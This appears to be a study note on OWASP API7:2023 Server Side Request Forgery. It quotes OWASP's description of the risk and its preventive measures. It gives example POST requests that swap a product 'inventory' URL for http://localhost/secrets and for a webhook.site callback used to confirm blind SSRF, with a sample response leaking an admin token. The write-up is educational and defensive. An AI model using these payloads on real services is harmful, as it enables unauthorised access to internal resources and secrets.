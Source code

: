 API7:2023 Server Side Request Forgery is a vulnerability that takes place when a user is able to control the remote resources retrieved by an application.  An attacker can use an API to supply their own input, in the form of a URL, to control the remote resources that are retrieved by the targeted server.

## [OWASP Attack Vector Description](https://owasp.org/API-Security/editions/2023/en/0xa7-server-side-request-forgery/)

_Exploitation requires the attacker to find an API endpoint that accesses a URI that’s provided by the client. In general, basic SSRF (when the response is returned to the attacker), is easier to exploit than Blind SSRF in which the attacker has no feedback on whether or not the attack was successful._

## [OWASP Security Weakness Description](https://owasp.org/API-Security/editions/2023/en/0xa7-server-side-request-forgery/)

_Modern concepts in application development encourage developers to access URIs provided by the client. Lack of or improper validation of such URIs are common issues. Regular API requests and response analysis will be required to detect the issue. When the response is not returned (Blind SSRF) detecting the vulnerability requires more effort and creativity._

## [OWASP Impacts Description](https://owasp.org/API-Security/editions/2023/en/0xa7-server-side-request-forgery/)

_Successful exploitation might lead to internal services enumeration (e.g. port scanning), information disclosure, bypassing firewalls, or other security mechanisms. In some cases, it can lead to DoS or the server being used as a proxy to hide malicious activities._

## In-Band SSRF Example

**Intercepted Request:**

`_POST api/v1/store/products_`

`_headers…_`

`_{_`

`_"inventory":"http://store.com/api/v3/inventory/item/12345"_`

`_}_`

**Attack:**

`_POST api/v1/store/products_`

`_headers…_`

`_{_`

`_"inventory":"_**_§_****_http://localhost/secrets_****_§"_**`

 }

**Response:**

HTTP/1.1 200 OK  
headers...  
**{**

**"secret_token":"SecretAdminToken123"**

**}**

# Out-of-Band SSRF Example

**Intercepted Request:**

`_POST api/v1/store/products_`

`_headers…_`

`_{_`

`_"inventory":"http://store.com/api/v3/inventory/item/12345"_`

 }

**Attack**:

`_POST api/v1/store/products_`

`_headers…_`

`_{_`

`_"inventory:"_**_§_****_http://localhost/secrets_****_§"_**`

} 

**Response:**

HTTP/1.1 200 OK  
headers...  
{}

![](attachments/Pasted%20image%2020250713202645.png)

**Attack**:

`_POST api/v1/store/products_`

`_headers…_`

`_{_`

`_"inventory":"_**_§[https://webhook.site/306b30f8-2c9e-4e5d-934d-48426d03f5c0](https://webhook.site/306b30f8-2c9e-4e5d-934d-48426d03f5c0)_****_§"_**`

 }

![](attachments/Pasted%20image%2020250713202658.png)

## [OWASP Preventative Measures](https://owasp.org/API-Security/editions/2023/en/0xa7-server-side-request-forgery/)

- _Isolate the resource fetching mechanism in your network: usually, these features are aimed to retrieve remote resources and not internal ones._
- _Whenever possible, use allow lists of_
    - _Remote origins users are expected to download resources from (e.g. Google Drive, Gravatar, etc.)_
    - _URL schemes and ports_
    - _Accepted media types for a given functionality_
- _Disable HTTP redirections._
- _Use a well-tested and maintained URL parser to avoid issues caused by URL parsing inconsistencies._
- _Validate and sanitize all client-supplied input data._
- _Do not send raw responses to clients._

